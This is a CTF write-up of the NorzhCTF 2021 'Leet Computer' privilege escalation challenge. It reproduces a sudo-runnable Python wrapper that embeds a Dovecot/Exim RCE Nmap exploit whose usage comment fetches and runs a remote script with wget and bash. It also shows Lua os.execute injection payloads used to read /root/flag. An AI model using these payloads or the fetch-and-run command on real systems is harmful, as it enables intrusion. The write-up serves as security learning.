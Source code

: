 ```yaml
---
year: 2021
month: 05
day: 24
---
```

# NorzhCTF 2021 - Leet Computer

## The Challenge

> One of the attacker is still in the airport hall, and it seems that he is still connected to the airport wifi ! Get a root shell on its machine to continue your investigation. This challenge will give you access to another network.
> 
> \- by Masterfox

## Context

NorzhCTF was a hackquest style CTF so we had to complete another challenge first to unlock this. The previous challenge was to get a shell on the 'attacker's machine and this one was a privilege escalation challenge.

## Tl;dr

```sh
./mail_scan.py --ip '010.001.001.001' --mail $'"\nos.execute("cat /root/flag") -- '
```

## How we solved it

For this CTF I was on the Digital Overdose CTF team and my one of my teammates had completed the previous challenge. I was looking around the machine for any obviously exploitable things but I couldn't find much at all. One of my teammates noticed that the user (e11i0t) already had sudo. They ran `sudo -l` and found that the user could only run one file with sudo called `mail_scan.py`. `sudo -l` is quite a useful command that I didn't know about before and I don't think I could have completed the challenge without my teammate introducing it to me (thanks [@revdev1337](https://twitter.com/revdev1337 "Twitter: @revdev1337")). Below is the contents of `mail_scan.py`.

```python
#!/usr/bin/env python3
#coding: utf-8

import argparse
from tempfile import NamedTemporaryFile
from os import system
import re

TEMPLATE_NSE = """
description = [[
Attempts to exploit a remote command execution vulnerability in misconfigured Dovecot/Exim mail servers.

It is important to note that the mail server will not return the output of the command. The mail server
also wont allow space characters but they can be replaced with "${{IFS}}". Commands can also be
concatenated with "``". The script takes care of the conversion automatically.

References:
* https://www.redteam-pentesting.de/en/advisories/rt-sa-2013-001/-exim-with-dovecot-typical-misconfiguration-leads-to-remote-command-execution
* http://immunityproducts.blogspot.mx/2013/05/how-common-is-common-exim-and-dovecot.html
* CVE not available yet
]]

---
-- @usage nmap -sV --script smtp-dovecot-exim-exec --script-args smtp-dovecot-exim-exec.cmd="uname -a" <target>
-- @usage nmap -p586 --script smtp-dovecot-exim-exec --script-args smtp-dovecot-exim-exec.cmd="wget -O /tmp/p example.com/test.sh;bash /tmp/p" <target>
--
-- @output
-- PORT    STATE SERVICE REASON
-- 465/tcp open  smtps   syn-ack
-- |_smtp-dovecot-exim-exec: Malicious payload delivered:250 OK id=XXX
--
-- @args smtp-dovecot-exim-exec.cmd Command to execute. Separate commands with ";".
-- @args smtp-dovecot-exim-exec.auth Authentication scheme (Optional).
-- @args smtp-dovecot-exim-exec.user Authentication username (Optional).
-- @args smtp-dovecot-exim-exec.pwd Authentication password (Optional).
-- @args smtp-dovecot-exim-exec.from Email address to use in the FROM field. Default: nmap+domain. (Optional).
-- @args smtp-dovecot-exim-exec.to Email address to use in the TO field. Default: nmap@mailinator.com
-- @args smtp-dovecot-exim-exec.timeout Timeout value. Default: 8000. (Optional)
-- @args smtp-dovecot-exim-exec.domain Domain name to use. It attempts to set this field automatically. (Optional)
---

author = "Paulino Calderon <calderon@websec.mx>"
license = "Same as Nmap--See http://nmap.org/book/man-legal.html"
categories = {{"exploit"}}

local smtp = require "smtp"
local shortport = require "shortport"
local stdnse = require "stdnse"

portrule = shortport.port_or_service({{25, 465, 587}},
                {{"smtp", "smtps", "submission"}})


action = function(host, port)
  local cmd = stdnse.get_script_args(SCRIPT_NAME..".cmd") or "uname"
  --Prepare payload
  cmd = string.gsub(cmd, " ", "${{IFS}}")
  cmd = string.gsub(cmd, ";", "``")

  local user = stdnse.get_script_args(SCRIPT_NAME..".user") or nil
  local pwd = stdnse.get_script_args(SCRIPT_NAME..".pwd") or nil
  local from = stdnse.get_script_args(SCRIPT_NAME..".from") or "nmap@"..smtp.get_domain(host)
  local to = "{mail_address}"
  local conn_timeout = stdnse.get_script_args(SCRIPT_NAME..".timeout") or 8000
  local smtp_domain = stdnse.get_script_args(SCRIPT_NAME..".domain") or smtp.get_domain(host)

  local smtp_opts = {{
    ssl = true, timeout = conn_timeout, recv_before = true, lines = 1
  }}
  local smtp_conn = smtp.connect(host, port, smtp_opts)

  local status, resp = smtp.ehlo(smtp_conn, smtp_domain)
  local auth_mech = stdnse.get_script_args(SCRIPT_NAME..".auth") or smtp.get_auth_mech(resp)
  if type(auth_mech) == "string" then
    auth_mech = {{ auth_mech }}
  end

  if (user and pwd) then
    status = false
    stdnse.print_debug(1, "%s:Mail server requires authentication.", SCRIPT_NAME)
    for i, mech in ipairs(auth_mech) do
      stdnse.print_debug(1, "Trying to authenticate using the method:%s", mech)
      status, resp = smtp.login(smtp_conn, user, pwd, mech)
      if status then
        break
      end
    end
    if not(status) then
      stdnse.print_debug(1, "%s:Authentication failed using user '%s' and password '%s'", SCRIPT_NAME, user, pwd)
      return nil
    end
  end

  --Sends MAIL cmd and injects malicious payload
  local from_frags =  stdnse.strsplit("@", from)
  local malicious_from_field = from_frags[1].."`"..cmd.."`@"..from_frags[2]
  stdnse.print_debug(1, "%s:Setting malicious MAIL FROM field to:%s", SCRIPT_NAME, malicious_from_field)
  status, resp = smtp.mail(smtp_conn, malicious_from_field)
  if not(status) then
    stdnse.print_debug(1, "%s:Payload failed:%s", SCRIPT_NAME, resp)
    return nil
  end

  --Sets recipient
  status, resp = smtp.recipient(smtp_conn, to)
  if not(status) then
    stdnse.print_debug(1, "%s:Cannot set recipient:%s", SCRIPT_NAME, resp)
    return nil
  end

  --Sets data and deliver email
  status, resp = smtp.datasend(smtp_conn, "nse")
  if status then
    return string.format("Malicious payload delivered:%s", resp)
  else
    stdnse.print_debug(1, "%s:Payload could not be delivered:%s", SCRIPT_NAME, resp)
  end
  return nil
 end
"""

parser = argparse.ArgumentParser()
parser.add_argument('--ip', required=True, help='IP of the Dovecot to attacc')
parser.add_argument('--mail', required=True, help='Mail address to check')
args = parser.parse_args()

# Arguments validation
ipregex = re.compile('^([0-9]{3}\.){3}[0-9]{3}$')
if not ipregex.match(args.ip):
  print("Error: IP argument is invalid")
  exit(1)

f = NamedTemporaryFile(suffix=".nse")
with open(f.name, "w") as tmp_file:
    tmp_file.write(TEMPLATE_NSE.format(mail_address=args.mail))
system("nmap --script={} '{}'".format(tmp_file.name, args.ip))
```

I read through the code and figured that it was creating an nmap script, saving it to a temp file and running it 🚨 with user supplied input 🚨.

The program took two parameters; ip, and mail. First I checked the ip regex (as the ip was inserted straight into a shell command) and I thought I might be able to get around the check by including a newline in the ip address, however this didn't work as the multiline option was not specified in the regex and therefore the `^` and `$` were the start and end of the string not the line. The payload I tried is below;

```sh
# the regex is a bit weird so the components of the ip all have to be three digits
sudo ./mail_scan.py --ip $'010.001.001.001\n; echo hi' --mail 'blah'
```

Circumventing the regex didn't work however I could verify that inserting a newline into the argument had worked.

Next I looked at how `args.mail` was being used and found that it was getting inserted straight into the nmap script with no sanitisation. I tried injecting a quotation mark into the mail parameter and it did indeed throw an error when running the nmap script.

Nmap scripts are written in lua so I just injected a call to `os.execute` to read the flag. This means that if nmap finds an open mail port we get the flag, all I had to do now was point it at a server with a mail port open.

```sh
./mail_scan.py --ip '010.001.001.001' --mail $'"\nos.execute("cat /root/flag") -- '
```

And there you go, we have the flag; `NORZH{e11i0t_1s_s0_1337!!}`

## What I learnt

1. `sudo -l` is really useful for finding what commands a user can run as root
2. it is trivial to add newlines to command line arguments
3. DONT EVER USE UNSANITISED USER INPUT

## Conclusion

This challenge was a nice confidence boost after working away at 3 other challenges and not being able to solve any of them.

Overall NorzhCTF was a very unique competition and I found the hackquest style quite interesting, however I still prefer jeopardy style CTFs for now because they are more beginner friendly.
